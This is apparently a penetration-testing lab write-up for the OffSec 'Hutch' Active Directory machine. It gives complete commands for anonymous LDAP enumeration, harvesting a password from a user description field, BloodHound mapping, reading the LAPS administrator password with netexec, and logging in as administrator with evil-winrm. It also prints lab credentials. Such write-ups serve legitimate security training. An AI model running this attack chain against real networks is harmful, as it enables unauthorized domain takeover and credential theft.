 ## Takeaway
- `ldapsearch` can also be performed anonymously. 
## Metadata
- From `nmap` result, one can identify that port `389` allows anonymous binding (`anonymous ldap search`).![[Pasted image 20240322183742.png]]
	- Run `ldapsearch -H ldap://192.168.222.122 -x -b "CN=Users,DC=hutch,DC=offsec" "objectClass=user" | grep "sAMAccountName" | awk -F: '{print $2}' | cut -c2- > domain_users.txt` to get a list of potential domain users.
	- Run `ldapsearch -H ldap://192.168.222.122 -x -b "CN=Users,DC=hutch,DC=offsec" "objectClass=user" | grep "description" -C 30`, one can identify user `hutch\fmcsorley`'s password is reset to `CrabSharkJellyfish192`.![[Pasted image 20240322185124.png]]
- Run `bloodhound-python -d hutch -u fmcsorley -p CrabSharkJellyfish192 -ns 192.168.222.122 -c all --zip` and upload to `bloodhound`.
	- Bloodhound will identify that user `fmcsorley` have `ReadLAPSPassword` privilege.![[Pasted image 20240322195301.png]]
	- Add `192.168.222.122 hutchdc.hutch.offsec` to `/etc/hosts` and Run `netexec ldap 192.168.222.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.222.122 -M laps` to retrieve local administrator password as `w8epk3kpp}7(Xq`.
# Exploitation
- Run `evil-winrm -i 192.168.222.122 -u administrator -p "w8epk3kpp}7(Xq" -d hutch` to obtain an interactive session as `hutch\administrator`.
# PrivEsc
- No Need